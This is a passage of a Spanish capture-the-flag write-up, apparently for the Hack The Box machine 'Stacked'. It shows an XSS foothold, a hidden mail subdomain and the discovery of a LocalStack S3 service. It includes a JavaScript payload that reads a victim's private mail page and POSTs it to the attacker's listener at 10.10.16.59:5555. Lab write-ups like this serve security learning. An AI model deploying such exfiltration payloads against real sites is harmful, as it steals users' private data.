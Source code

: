 ![Diagrama en blanco](https://user-images.githubusercontent.com/69093629/162549694-f2646995-76e5-4b23-96ff-710ee65c508d.png)

Esta era la página con el código HTML del usuario.

![webservidor2](https://user-images.githubusercontent.com/69093629/162546326-2b628a81-cecf-40d4-a34e-d1587a2ec2cb.png)

Había un usuario llamado `Jeremy Taint` con un hiperenlace que te redirigía a `/read-mail.php?id=1`:

![0](https://user-images.githubusercontent.com/69093629/162546383-87e5e3a6-7cdc-43fb-a192-65bfca15d8f6.png)

Esto me llamo la atención, por lo que decidí descargar el HTML correspondiente con el siguiente código JS:

```js
var oReq = new XMLHttpRequest();
oReq.open("GET", "http://mail.stacked.htb/read-mail.php?id=1", false);
oReq.send();

var response = oReq.responseText;

var resp = new XMLHttpRequest();
resp.open("POST", "http://10.10.16.59:5555/", false);
resp.send(response);
```

Este enviaba una petición GET a `http://mail.stacked.htb/read-mail.php?id=1` desde la instancia del usuario, almacenaba la respuesta en `response` y hacia otra petición POST a mi sesión de `nc` con el contenido de la variable `response`.

Apunte a mi archivo JS desde el XSS y recibí una conexión por `nc`, abrí un servidor por Python y mire que tenía esta segunda página.

![subdominio](https://user-images.githubusercontent.com/69093629/162546991-eb57a5f8-984b-4d79-a836-f12d605fe546.png)

Había un mensaje: *Hey Adam, I have set up S3 instance on s3-testing.stacked.htb so that you can configure the IAM users, roles and permissions. I have initialized a serverless instance for you to work from but keep in mind for the time being you can only run node instances. If you need anything let me know. Thanks*.

Este decía que configure la instancia de S3 en `s3-testing.stacked.htb`, este era un nuevo subdominio que no tenía por lo que lo añadí al `/etc/hosts`.

![0](https://user-images.githubusercontent.com/69093629/162547200-0e4ff1cc-fa24-4b70-9d47-42613ce5ab25.png)

### s3-testing.stacked.htb

![s3](https://user-images.githubusercontent.com/69093629/162547229-c2a8df2c-cf15-43b4-b484-8097a51b4b72.png)

Al parecer era una API de AWS, viendo esto me acordé del archivo `docker-compose.yml` el cual contenía información sobre un servicio AWS en local.

Buscando vulnerabilidades de LocalStack encontre lo siguiente:

![Captura de pantalla 27](https://user-images.githubusercontent.com/69093629/162548008-b6c6c6da-fc2f-49d8-8e00-fd07ded05450.png)
